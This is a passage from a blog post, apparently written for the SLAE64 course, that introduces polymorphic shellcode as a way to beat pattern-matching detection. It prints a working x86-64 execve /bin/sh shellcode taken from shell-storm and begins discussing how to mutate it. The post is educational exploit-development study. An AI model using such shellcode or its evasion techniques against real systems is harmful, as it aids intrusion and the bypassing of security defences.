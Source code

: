 ```yaml
---
layout: post
title: Polymorphic Shellcode
date: 2021-01-17 20:30:00
categories: posts
comments: false
en: true
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE64 certification. 

According to wikipedia, "Polymorphic code is code that uses a polymorphic engine to mutate while keeping the original algorithm intact. That is, the code changes itself each 
time it runs, but the function of the code (its semantics) will not change at all. For example, 1+3 and 6-2 both achieve the same result while using different values and 
operations.". This could include as well garbage instructions which do not affect execution at all. Nevertheless, it helps to beat pattern matching.

Today we are going to dive a little deep within Polymorphic shellcode. However, instead of using an engine, we will generate it with our own hands! 

The sixth assignment from the seven requires taking three [shellcodes](https://es.wikipedia.org/wiki/Shellcode) from [shell-storm.org](http://shell-storm.org/) and generate 
polymorphic versions of such. In addition, its size should not be bigger than 150%.

#### Execve Shellcode (Shellcode #1)

The first shellcode from the three will be one that executes ```/bin/sh``` through the ```execve``` syscall. It can be found [here](http://shell-storm.org/shellcode/files/shellcode-603.php). 

###### Original code

```term
    section .text
            global _start
 
    _start:
            xor     rdx, rdx
            mov     qword rbx, '//bin/sh'
            shr     rbx, 0x8
            push    rbx
            mov     rdi, rsp
            push    rax
            push    rdi
            mov     rsi, rsp
            mov     al, 0x3b
            syscall
```

There are infinite ways to modify such shellcode. For instance, "NOP equivalents" could be used, which add no functionality whatsoever and difficult pattern matching. 
